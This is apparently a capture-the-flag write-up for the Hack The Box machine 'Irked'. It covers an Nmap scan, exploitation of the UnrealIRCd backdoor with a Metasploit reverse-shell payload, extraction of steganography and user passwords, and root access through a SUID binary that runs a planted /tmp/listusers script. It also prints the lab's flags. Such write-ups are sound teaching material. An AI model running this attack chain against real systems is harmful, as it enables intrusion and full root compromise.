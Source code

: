 

Initial Nmap scan:

```
nmap -sV -sC -p- 10.10.10.117
```

```
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
60833/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
```

## Exploiting UnrealIRCd Backdoor

Use Metasploit or manual reverse shell over the UnrealIRCd backdoor:
```
msfconsole
search UnrealIRCd 
select 0
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 10.10.10.117
set RPORT 65534
set payload cmd/unix/reverse
set LHOST <tun0 IP>
set LPORT 4444
run
```

Shell as `ircd`

## Lateral Movement 

```
find /home/djmardov -type f -exec ls -la {} \; 2>/dev/null
-rw-r--r-- 1 djmardov djmardov 675 May 11  2018 /home/djmardov/.profile
-rw-r--r-- 1 djmardov djmardov 52 May 16  2018 /home/djmardov/Documents/.backup
-rw------- 1 djmardov djmardov 4706 Nov  3  2018 /home/djmardov/.ICEauthority
-rw-r--r-- 1 djmardov djmardov 220 May 11  2018 /home/djmardov/.bash_logout
-rw-r--r-- 1 djmardov djmardov 3515 May 11  2018 /home/djmardov/.bashrc
-rw-r----- 1 root djmardov 33 Apr 17 21:38 /home/djmardov/user.txt
ircd@irked:~/Unreal3.2$ ls -la /home/djmardov
```
Lets check the .backup
```
/home/djmardov/Documents/.backup
cat /home/djmardov/Documents/.backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

If we try to log in to djmardov with this password, we are not allowed to do that :(
But there was an image on the from page, lets have a look at that.

```
wget http://10.10.10.117/irked.jpg
```

```
steghide extract -sf irked.jpg
# Password: UPupDOWNdownLRlrBAbaSSss

Kab6h+m+bbp2J:HG
```

Now back in our shell 
``
```
su djmardov
# Password: Kab6h+m+bbp2J:HG

cat ~/user.txt
88780f4a6407365cc883e23959d27e6e
```

## Privilege Escalation to Root

Check for SUID binaries:
```
find / -perm -4000 -type f 2>/dev/null
...
/usr/bin/viewuser
...
```

If we run that 
```
/usr/bin/viewuser
sh: 1: /tmp/listusers: not found
```
This means it tries to run `/tmp/listusers` **as root**.
Create malicious script:

```
echo "/bin/sh" > /tmp/listusers
chmod +x /tmp/listusers
```

Run the SUID binary:
```
/usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2025-04-17 21:38 (:0)
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
pass.txt  root.txt
# cat root.txt
cat root.txt
feff7c74c72c03a02efec10c2bab2b52
```


## What’s the Privilege Escalation?

Once you get access as the user `djmardov`, you notice there’s a strange binary on the system called `viewuser`. It’s not something you'd normally find on a Linux box, which makes it suspicious right away.
The key thing about this binary is that it has the SetUID permission set which means whenever it is executed, it runs as root, regardless of which user launches it. That alone isn’t necessarily dangerous — many legitimate system programs use SetUID but when a custom binary does this, it often opens the door to privilege escalation.
When you run the binary, it prints a vague message about being in development and then shows an error: it tries to run a file called `/tmp/listusers`, but that file doesn’t exist.
This is the actual vulnerability.

The binary is written in a way that it tries to execute the `/tmp/listusers` script without checking its contents or permissions and since the binary is running as root, anything it executes also runs as root.
If the binary were coded securely, it would never blindly run something from a writable location like `/tmp`. But in this case, it does and it gives any user on the system the opportunity to place a malicious file at `/tmp/listusers`.
This is a classic example of insecure use of external scripts in a privileged context.

Because `/tmp` is writable by any user, you as `djmardov` can simply create a file named `/tmp/listusers` and make it executable. Inside that file, you place a command that spawns a root shell. Then you run the vulnerable binary.
Since the binary is SetUID and runs as root and it's designed to run `/tmp/listusers` — your malicious script gets executed with full root privileges.
This instantly gives you a root shell, and you can now access `root.txt` or do anything else on the box.
